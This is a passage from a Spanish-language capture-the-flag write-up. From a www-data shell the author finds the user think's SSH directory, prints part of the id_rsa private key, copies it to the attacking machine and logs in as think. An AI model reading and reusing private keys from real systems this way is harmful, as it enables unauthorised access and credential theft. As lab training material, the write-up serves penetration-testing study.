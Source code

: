 Durante la enumeración, encontramos un directorio oculto `.ssh` en la ruta `/home/think/.ssh/`. Dentro de este directorio se hallaba un archivo crítico: la **clave privada SSH** (`id_rsa`) del usuario _think_.

```bash
find

/.ssh
./.ssh/id_rsa
./.ssh/authorized_keys
./.ssh/id_rsa.pub
./.config
```

Este hallazgo es muy relevante porque permite autenticarse directamente como el usuario _think_, siempre y cuando el archivo tenga los permisos correctos para su uso en un cliente SSH.



## Exportación de la clave a la máquina atacante

Copiamos el contenido de `id_rsa` y lo guardamos en un archivo local en nuestra máquina atacante. Es importante ajustar los permisos del archivo, ya que SSH requiere que las claves privadas tengan permisos restringidos (600) para evitar advertencias de seguridad:

```bash
www-data@41c976e507f8:/home/think$ cat /home/think/.ssh/id_rsa
cat /home/think/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAxPvc9pijpUJA4olyvkW0ryYASBpdmBasOEls6ORw7FMgjPW86tDK
uIXyZneBIUarJiZh8VzFqmKRYcioDwlJzq+9/2ipQHTVzNjxxg18wWvF0WnK2lI5TQ7QXc
OY8+1CUVX67y4UXrKASf8l7lPKIED24bXj
```

## Conexión como el usuario _think_

Una vez preparada la clave privada, establecimos la conexión SSH directamente al servidor víctima, autenticándonos como el usuario **think**:

```bash
(zikuta㉿zikuta)-[~/Desktop/publisher]
└─$ nano id_rsa      

┌──(zikuta㉿zikuta)-[~/Desktop/publisher]
└─$ chmod 600 id_rsa                                

┌──(zikuta㉿zikuta)-[~/Desktop/publisher]
└─$ ssh -i id_rsa think@10.201.21.82     
Last login: Mon Feb 12 20:24:07 2024 from 192.168.1.13
think@ip-10-201-21-82:~$ 
```

Con esto, confirmamos que la clave privada era válida y logramos acceso interactivo al sistema con la cuenta del usuario _think_.
